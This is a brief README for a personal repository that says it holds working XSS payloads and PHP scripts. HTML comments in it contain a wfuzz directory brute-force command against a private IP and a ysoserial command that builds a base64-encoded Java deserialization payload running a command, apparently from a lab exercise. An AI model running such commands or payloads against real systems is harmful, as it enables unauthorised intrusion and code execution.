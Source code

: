 # codeProjects
This is a repository of my working code payloads and scripts.

### Directory
XSS -  a working list of payloads I have used.

PHP -  a working collection of scipts



<!-- wfuzz -c -z file,/Users/DaNeil/Documents/wfuzz/wordlist/general/common.txt --hc 404 http://192.168.1.202/FUZZ -->

<!-- java -jar ysoserial-0.0.4.jar Spring1 '/usr/local/bin/score b691b7cf-e394-46cf-ba87-7f986fc25c08'| base64 -->

